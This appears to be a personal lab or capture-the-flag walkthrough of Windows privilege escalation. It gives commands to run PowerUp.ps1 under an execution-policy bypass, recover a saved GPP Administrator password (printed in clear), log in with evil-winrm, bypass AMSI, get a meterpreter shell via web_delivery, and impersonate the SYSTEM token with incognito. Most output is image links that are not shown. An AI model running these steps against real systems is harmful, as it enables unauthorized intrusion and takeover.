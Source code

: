 # Enumeration
---
- Upload the `PowerUp.ps1`file and run `Invoke-AllChecks`:
	- `powershell -ep bypass`
	- `. .\PowerUp.ps1`
	- `Invoke-AllChecks`
- Saved **GPP credentials** for `Administrator`:
- ![[Pasted image 20250422160305.png]]
- `Administrator : MyUnclesAreMarioAndLuigi!!1!`

# Login using `evil-winrm`:
---
![[Pasted image 20250422160422.png]]

# Getting System
---
- We can bypass `AMSI`using `Evil-winrm`:
	- `Bypass-4MSI`
	- ![[Pasted image 20250422160601.png]]
- Gain `meterpreter`shell using `web_delivery`:
	- ![[Pasted image 20250422160634.png]]
	- ![[Pasted image 20250422160712.png]]
- Load `incognito`and impersonate `NT AUTHORITY\SYSTEM`:
	- `load incognito`
	- `list_tokens -u`
	- `impersonate_token "NT AUTHORITY\\SYSTEM"`
		- ![[Pasted image 20250422160857.png]]


# Vulnerable Service - Method 2
---
- Binary Path Exploitation
![[Pasted image 20250423161053.png]]
![[Pasted image 20250423161125.png]]
![[Pasted image 20250423161153.png]]